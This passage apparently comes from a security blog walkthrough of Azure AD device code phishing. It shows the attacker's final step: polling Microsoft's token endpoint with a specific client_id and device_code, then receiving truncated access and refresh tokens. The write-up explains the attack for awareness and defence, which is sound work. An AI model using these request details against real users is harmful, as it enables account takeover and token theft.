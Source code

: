 ![Login](/images/posts/phishing_8.png)

After successfull authentication, the following is shown to the user. <br>

![Profit](/images/posts/phishing_9.png)

:warning: **At this point the identity of the user is compromised!** :warning: 

### 4. Retrieving the access tokens

The last step for the attacker is to retrieve the access tokens. After completing the step 2. the attacker starts polling the Azure AD for the authentication status.

Attacker needs to make an http POST to Azure AD token endpoint every 5 seconds:
```
 https://login.microsoftonline.com/Common/oauth2/token?api-version=1.0
```
The request must include the following parameters (code is the device_code from the step 1)

Parameter  | Value 
---        | ---
client_id  | d3590ed6-52b3-4102-aeff-aad2292ab01c 
resource   | https://graph.windows.net
code       | CAQABAAEAAAB2UyzwtQEKR7-rWbgdcBZIGm0IlLxBn23EWIrgw7fkNIKyMdS2xoEg9QAntABbI5ILrinFM2ze8dVKdixlThVWfM8ZPhq9p7uN8tYIuMkfVJ29aUnUBTFsYCmJCsZHkIxtmwdCsIlKpOQij2lJZzphfZX8j0nktDpaHVB0zm-vqATogllBjA-t_ZM2B0cgcjQgAA
grant_type | urn:ietf:params:oauth:grant-type:device_code

If the authentication is pending, an http error **400 Bad Request** is returned with the following content:

{{< highlight json >}}
{
	"error": "authorization_pending",
	"error_description": "AADSTS70016: OAuth 2.0 device flow error. Authorization is pending. Continue polling.\r\nTrace ID: b35f261e-93cd-473b-9cf9-b81f30800600\r\nCorrelation ID: 8ee0ae8a-533f-4742-8334-e9ed939b083d\r\nTimestamp: 2020-10-14 06:06:07Z",
	"error_codes": [70016],
	"timestamp": "2020-10-13 18:06:07Z",
	"trace_id": "b35f261e-93cd-473b-9cf9-b81f30800600",
	"correlation_id": "8ee0ae8a-533f-4742-8334-e9ed939b083d",
	"error_uri": "https://login.microsoftonline.com/error?code=70016"
}
{{< /highlight>}}

After successfull login, we'll get the following response (tokens truncated):
{{< highlight json >}}
{
	"token_type": "Bearer",
	"scope": "user_impersonation",
	"expires_in": "7199",
	"ext_expires_in": "7199",
	"expires_on": "1602662787",
	"not_before": "1602655287",
	"resource": "https://graph.windows.net",
	"access_token": "eyJ0eXAi...HQOT1rvUEOEHLeQ",
	"refresh_token": "0.AAAAxkwD...WxPoK0Iq6W",
	"foci": "1",
	"id_token": "eyJ0eXAi...widmVyIjoiMS4wIn0."
}
{{< /highlight>}}
